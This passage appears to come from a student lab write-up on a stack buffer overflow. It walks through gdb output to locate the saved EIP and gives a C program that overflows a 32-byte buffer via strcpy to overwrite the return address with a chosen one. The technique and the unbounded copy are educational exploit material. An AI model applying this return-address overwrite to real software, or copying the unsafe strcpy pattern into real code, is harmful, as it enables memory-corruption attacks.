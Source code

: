we get :
 Stack level 0, frame at 0xbffff2b0:
 eip = 0x4011db in foo (loop.c:10); saved eip = 0x40122e
 called by frame at 0xbffff2f0
 source language c.
 Arglist at 0xbffff2a8, args: buffer=0x405160 '\220' <repeats 38 times>
 Locals at 0xbffff2a8, Previous frame's sp is 0xbffff2b0
 
The value that interest us is : saved eip = 0x40122e , we will have to modify this value with the address of our choice.
then , to know the buffer size ( we can simply check in the code but , that's another way to find it)
 -x/24xw newbuffer

the first x for "examine", 24 for the quantity of data, second x means hexadecimal and w means words. so we want
to examine the 24 words at the position of the newbuffer in memory (on the stack).

We get : 
```
 0xbffff2b0: 0x90909090 0x90909090 0x90909090 0x90909090
 0xbffff2c0: 0x90909090 0x90909090 0x90909090 0x90909090
 0xbffff2d0: 0x00405100 0x00404000 0xbffff308 0x0040122e
 0xbffff2e0: 0x00405160 0xffffff90 0x00000020 0x004011fb
 0xbffff2f0: 0x00000002 0xbffff3b4 0xbffff3c0 0x00405160
 0xbffff300: 0xbffff320 0x00000000 0x00000000 0xb7dff7e1
```
 
 x90 is a NOP instruction, 0xbffff308 seems to be the ebp value and 0x0040122e is the eip value that we want to
overwrite.In order to know the size of the buffer, we simply subtract 0xbffff2d0 - 0xbffff2b0 and we get 32 (in
decimal). We see 8 more bytes stored
 that we can overwrite too. At this point, we are free to change EBP and EIP values.
 We now have to change the 0x0040122e by 0x0040124d (the address of the call of foo). Here the solution to
reach the saved EIP :

```
#include "stdlib.h"
#include "string.h"
// YOU CAN CHANGE THIS VALUE!
#define TARGET 48
void foo(char * buffer){
 char newbuffer[32];
 strcpy(newbuffer, buffer);
}
int main() {
 char * buffer;
 buffer = malloc(sizeof(char)*TARGET);
 memset(buffer, '\x90',TARGET);
 buffer[44]=0x4d;
 buffer[45]=0x12;
 buffer[46]=0x40;
 buffer[47]=0x00;
 foo(buffer);
return 0;
}

```
## 4.6
In this program , we can find two errors :
The amount of byte copied is always the same (256) despite the real number of bytes written as input (ex, if I
write a string containing 50 bytes).